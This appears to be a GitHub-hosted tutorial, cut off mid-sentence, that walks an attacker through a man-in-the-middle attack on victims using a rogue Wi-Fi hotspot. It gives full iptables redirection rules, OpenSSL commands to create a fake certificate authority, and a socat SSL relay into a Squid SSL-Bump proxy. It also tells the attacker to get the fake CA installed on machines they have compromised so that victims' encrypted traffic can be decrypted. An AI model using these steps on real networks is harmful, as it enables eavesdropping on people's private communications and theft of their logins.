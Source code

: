 Having a socat SSL relay listening on port 443 is very much like how a nginx web server listening on 127.0.0.1:443 functions as a reverse-proxy to a Apache server listening on 127.0.0.1:8080. Port 8080 can only be reached by two things, anyone that is localhost, and anyone that communicated to localhost:443 requesting a connection to the service running on port 8080 (Squid for example).

	# Socat SSL/TLS Relay to Squid

If you wanted to have a socat SSL/TLS relay listen for you on localhost:443, ready to be reached by a Squid proxy on localhost:3128 (only tangible by users of port 443), `socat -v openssl-listen:443,cert=server.crt,key=server.key,verify=0,reuseaddr,fork tcp4:localhost:3128`.

First enable ipv4 forwarding

```
echo 1 > /proc/sys/net/ipv4/ip_forward
iptables -t nat -A POSTROUTING -o wlan0 -j MASQUERADE
```

Then write rules to redirect all HTTP and HTTPS traffic from your laptop (I am assuming it is functioning as a gateway for the victims you are running a mitm attack on, for example, rogue hotspot from mana toolkit or hostapd + dnsmasq + dhcpd)

```
iptables -t nat -A PREROUTING -i wlan0  -p tcp --dport 443 -j REDIRECT --to-port 3128
iptables -t nat -A PREROUTING -i wlan0  -p tcp --dport 80 -j REDIRECT --to-port 3128
```

And check your iptables NAT table with `iptables -t nat -nvL`.

Now generate your RSA key, your client and server Certificate Authority and key information. Make sure that for your FQDN (Fully Qualified Domain Name) information,e REMEMBER to make up a fake hostname/domain for yourself. I chose squid.it, but you will need this information later for the certificate to be properly validated in web browsers of victims and for proper system-level installation. None of the other fields matter at all, just the FQDN question must be named 'squid.it' or `listerunlimited.com` or something.

```
openssl genrsa -des3 -out ca.key 4096 
openssl req -new -x509 -days 365 -key ca.key -out ca.crt
openssl genrsa -des3 -out server.key 4096
openssl req -new -key server.key -out server.csr
openssl x509 -req -days 365 -in server.csr -CA ca.crt -CAkey ca.key -set_serial 01 -out server.crt
openssl rsa -in server.key -out server.key.insecure
mv server.key server.key.secure
mv server.key.insecure server.key 
```

Now ca.key and ca.crt are for your clients/victims to install/replace after you own their machines to allow you to decrypt their communications through forcefully downgrading their web traffic. And server.key, server.csr, server.crt are all meant for the server's share of the end to end encryption.

Each side only permits attacking one half of the traffic, so as a attacker its important you hold on to all of these keys and ensure that the victims properly install their ca.key and ca.crt before moving forward. 

Now as the attacker setting up a socat SSL/TLS relay to Squid attack proxy recompiled with SSL-Bump capability... `socat -v openssl-listen:443,cert=server.crt,key=server.key,verify=0,reuseaddr,fork tcp4:localhost:3128`. The command
